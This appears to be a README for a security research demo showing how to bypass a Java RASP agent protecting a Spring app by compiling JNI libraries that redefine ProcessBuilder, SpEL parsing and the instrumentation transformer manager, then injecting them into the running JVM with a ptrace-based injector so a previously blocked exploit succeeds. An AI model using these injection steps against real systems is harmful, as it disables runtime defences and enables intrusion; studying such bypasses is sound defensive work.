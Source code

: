 RASP Bypass using Process Injection

- Use your own RASP agent or use [rasp-agent](..%2Frasp-agent)
- Run [Main.kt](src%2Fmain%2Fjava%2Fcom%2Fapplicationsec%2FMain.kt) with the VM option:
  - -javaagent:path/to/rasp-agent/target/rasp-agent-1.0.0-SNAPSHOT.jar
- Run [exploit.sh](exploit.sh) and see that we are blocked.
  ![blocked.png](blocked.png)

Inject it in the target process
- set JAVA_HOME property (e.g. export JAVA_HOME=/Library/Java/JavaVirtualMachines/openjdk-17.jdk/Contents/Home)
- Compile libraries
    - g++ -shared -arch arm64 -I"$JAVA_HOME/include" -I"$JAVA_HOME/include/darwin" redefineTransformerManager.cpp -o redefineTransformerManager.dylib -L"$JAVA_HOME/lib/server" -ljvm
    - g++ -shared -arch arm64 -I"$JAVA_HOME/include" -I"$JAVA_HOME/include/darwin" redefineProcessBuilder.cpp -o redefineProcessBuilder.dylib -L"$JAVA_HOME/lib/server" -ljvm
    - g++ -shared -arch arm64 -I"$JAVA_HOME/include" -I"$JAVA_HOME/include/darwin" redefineSpelExpressionParser.cpp -o redefineSpelExpressionParser.dylib -L"$JAVA_HOME/lib/server" -ljvm
- now inject the library (e.g. using ptrace for macos/linux: https://github.com/kubo/injector)
- cd injector/cmd
- ./injector -java -p $pid path/to/redefineTransformerManager.dylib
- ./injector -java -p $pid path/to/redefineSpelExpressionParser.dylib
- ./injector -java -p $pid path/to/redefineProcessBuilder.dylib
- Look at the spring app logs, and confirm that the injection succeeded
  ![attached.png](attached.png)
- now rerun the [exploit.sh](exploit.sh), you should have bypassed rasp
  ![bypassed.png](bypassed.png)
